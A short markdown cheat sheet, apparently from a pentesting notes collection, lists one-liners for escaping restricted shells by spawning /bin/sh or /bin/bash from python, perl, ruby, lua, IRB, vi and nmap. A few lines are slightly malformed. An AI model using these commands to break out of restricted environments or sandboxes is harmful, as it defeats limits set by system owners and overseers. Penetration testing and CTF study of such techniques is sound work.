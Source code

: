 ```yaml
---
title: Spawn
author: i4
date: M11-02-2022
---
```

# Spawn /bin/sh from restricted environments

Ways to escape a restricted environment
```
python3
python -c 'import pty; pty.spawn("/bin/sh")'

python2
echo os.system('/bin/bash')

sh:
/bin/sh -i

perl: 
exec "/bin/sh";
perl —e 'exec "/bin/sh";'

ruby: 
exec "/bin/sh"

lua: 
os.execute('/bin/sh')

(From within IRB)
exec "/bin/sh"

(From within vi)
:!bash
:set shell=/bin/bash:shell

(From within nmap)
!sh
```
